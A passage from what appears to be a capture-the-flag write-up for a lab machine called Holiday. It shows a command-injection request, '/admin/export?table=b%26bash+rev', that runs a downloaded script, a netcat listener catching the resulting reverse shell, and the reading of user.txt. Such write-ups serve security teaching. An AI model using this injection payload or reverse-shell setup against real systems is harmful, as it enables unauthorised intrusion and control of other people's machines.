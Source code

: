 But I do get a hit on my webserver:



    10.10.10.25 - - [07/Sep/2019 05:39:33] "GET /rev HTTP/1.1" 200 -



I can also see it on Holiday using `ls`:

![](/img/1567849619632.png)

Now i'll run it by visiting `/admin/export?table=b%26bash+rev`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:54220.
    bash: cannot set terminal process group (1146): Inappropriate ioctl for device
    bash: no job control in this shell
    algernon@holiday:~/app$ id
    uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)



And that's enough to find `user.txt` one directory up:



    algernon@holiday:~$ cat user.txt 
    5edc176c...



## Shell as root

### Enumeration
